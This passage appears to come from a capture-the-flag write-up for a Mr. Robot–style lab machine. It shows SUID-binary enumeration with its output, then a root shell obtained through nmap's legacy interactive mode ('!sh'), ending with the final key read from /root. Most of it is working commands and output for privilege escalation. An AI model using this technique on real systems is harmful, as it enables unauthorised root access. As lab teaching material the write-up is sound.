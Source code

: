 Those three services: FTP, Monit Linux, MySQL respectivly were listenning on local interface. Monit Linux caught my eye, I never dealt with it before. So I started googling for it but I quickly, got fed up. 

At this point I started looking for programs with SUID root privileges.
```
$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
$ 
```

`/usr/local/bin/nmap` looked like a good candidate, old versions of this software had --interactive option, which meant I could run command as root:
```
$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !id
!id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
waiting to reap child : No child processes
nmap> 
```

I ran `!sh` to start sh session as root: 
```
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
# 
```
